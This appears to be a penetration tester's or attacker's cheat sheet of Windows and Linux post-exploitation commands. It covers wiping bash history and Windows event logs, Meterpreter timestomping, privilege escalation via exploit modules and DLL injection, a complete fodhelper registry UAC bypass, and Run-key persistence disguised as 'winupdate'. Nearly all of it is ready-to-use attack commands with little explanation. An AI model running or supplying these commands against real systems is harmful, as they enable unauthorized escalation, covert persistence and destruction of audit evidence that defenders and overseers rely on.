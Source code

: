 	Disguise UA
	Modify /usr/share/nmap/nselib/http.lua
	
	Clear bash history
	history -c
	
	idle/zombie scan -sI

	Delete all windows event logs
	del %WINDIR%\*.log /a/s/q/f
	
	Meterpreter
	clearev
	timestomp -z "01/01/2020 10:10:10" README.txt
	


Privesc
    
      From domain user to System
	use ms18_8120_win32k_privesc (win7, win2008)	
	DLL injection
	in meterpreter, upload /usr/share/metasploit-framework/data/exploits/CVE-2015-2426/reflective_dll.x64.dll
	Find a system-level process
	Use reflective_dll_inject post exploit module

	
	From local user to local admin
	exploit/windows/local/bypassuac
	
	From administrator to system
	meterpreter getsystem
	psexec -s -i cmd.exe
	 


Windows UAC Bypass

	Must have a medium integrity shell on Win10 where c:\windows\system32\fodhelper.exe exists
	reg add "HKCU\software\classes\ms-settings\shell\open\command" /v "DelegateExecute" /d ""
	reg add "HKCU\software\classes\ms-settings\shell\open\command" /v "" /d "cmd.exe /c powershell.exe"
	cmd.exe /c fodhelper.exe
	powershell start-process "c:\windows\system32\fodhelper.exe" -windowstyle hidden
	reg delete "HKCU\software\classes\ms-settings\shell\open\command" /va
	


Persistence

	On user login (may not work if user doesnt login)
	reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v winupdate /t REG_SZ /d c:\users\administrator\appdata\local\temp\winupdate.bat
	reg query HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v winupdate 


	On machine start (need admin)
	reg add HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run /v winupdate /t REG_SZ /d c:\windows\system32\winupdate.bat
	
	Meterpreter
	run post/windows/manage/persistence_exe
	

